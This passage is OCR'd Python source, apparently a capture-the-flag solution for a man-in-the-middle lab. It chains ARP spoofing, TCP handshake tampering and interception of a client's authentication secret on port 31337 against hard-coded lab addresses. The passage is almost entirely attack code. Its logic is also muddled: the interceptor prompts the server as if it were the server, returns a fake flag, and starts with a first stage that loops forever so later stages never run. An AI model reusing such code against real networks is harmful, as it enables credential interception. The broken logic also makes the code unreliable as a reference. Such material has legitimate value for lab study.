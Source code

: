 ```py
        self.attacker_ip = attacker_ip
        self.server_ip = server_ip
        self.client_ip = client_ip
        self.attacker_mac = attacker_mac
        self.secret = None

    def intercept_authentication(self, connection):
        """
        拦截并伪造 secret 认证信息
        """
        self.send(connection, b"SECRET:\n")
        client_secret = connection.recv(0x1000).decode("latin").strip()
        self.secret = client_secret  # 获取客户端的 secret

        self.send(connection, b"COMMANDS:\nECHO\nFLAG\nCOMMAND:\n")
        command = connection.recv(0x1000).decode("latin").strip()

        if command == "FLAG":
            if self.secret:
                self.send(connection, self.secret.encode())  # 获取 secret
                self.send(connection, b"flag{fake_flag}\n")  # 返回伪造的 flag
            else:
                self.send(connection, b"UNAUTHORIZED\n")
        else:
            self.send(connection, b"???\n")

    def send(self, connection, data):
        """
        向连接发送数据
        """
        connection.sendall(data)

    def run(self):
        """
        启动认证劫持
        """
        while True:
            try:
                with socket.create_connection((self.server_ip, 31337)) as connection:
                    self.intercept_authentication(connection)
            except (ConnectionError, TimeoutError):
                pass
            time.sleep(1)

def run_mitm_attack():
    attacker_ip = "10.0.0.1"  # 攻击者的 IP
    attacker_mac = "00:00:00:00:00:01"  # 攻击者的 MAC 地址
    server_ip = "10.0.0.3"  # 服务器的 IP 地址
    server_mac = "00:00:00:00:00:02"  # 服务器的 MAC 地址
    client_ip = "10.0.0.2"  # 客户端的 IP 地址
    client_mac = "00:00:00:00:00:03"  # 客户端的 MAC 地址

    # 启动 ARP 欺骗攻击
    mitm_host = MITMHost(attacker_ip, attacker_mac, server_ip, server_mac, client_ip, client_mac)
    mitm_host.run()

    # 启动 TCP 握手篡改
    mitm_handshake_host = MITMHandshakeHost(attacker_ip, attacker_mac, server_ip, client_ip)
    mitm_handshake_host.run()

    # 启动认证拦截
    mitm_authenticated_host = MITMAuthenticatedHost(attacker_ip, server_ip, client_ip, attacker_mac)
```